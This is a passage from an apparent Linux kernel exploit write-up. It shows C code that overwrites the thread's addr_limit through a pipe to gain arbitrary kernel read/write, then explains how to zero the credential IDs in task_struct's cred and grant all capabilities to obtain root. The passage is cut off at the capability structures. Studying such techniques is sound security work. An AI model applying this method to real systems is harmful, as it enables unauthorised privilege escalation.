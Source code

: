 ```c
uint32_t max_limit = 0xffffffff;
int pipefd[2];
pipe(pipefd);
write(pipefd[1], &max_limit, sizeof(max_limit));
read(pipefd[0], thread_info.addr_limit, sizeof(max_limit));
```

We can now read and write anywhere in the kernel, but only from the compromised thread.

### Root

If you'll notice, the `thread_info` structure contains a pointer to the task structure. We can now read the address of the structure and the structure itself. There's a particular field which interests us in the task structure:

```c
struct task_struct {
...
    const struct cred *real_cred;
    const struct cred *cred;
...
};
 
struct cred {
    atomic_t usage;
    uid_t uid;
    gid_t gid;
    uid_t suid;
    gid_t sgid;
    uid_t euid;
    gid_t egid;
    uid_t fsuid;
    gid_t fsgid;
...
};
```

The cred structure specifies the process' credentials. If we were to change all the ids to 0, we'll essentially make the process a root process, following which we can do whatever we want in the context of that process.

However just being `*id=0` is not enough, modern linuxes (linuces?) rely on the "capability" system. So we also have to give the process all the possible capabilities:

```c
struct kernel_cap_struct {
    uint32_t cap[2];
};

typedef struct kernel_cap_struct kernel_cap_t;

struct cred {
    atomic_t usage;
    uid_t uid;
...
    kernel_cap_t cap_inheritable;
    kernel_cap_t cap_permitted;
    kernel_cap_t cap_effective;
    kernel_cap_t cap_bset;
...
};
```
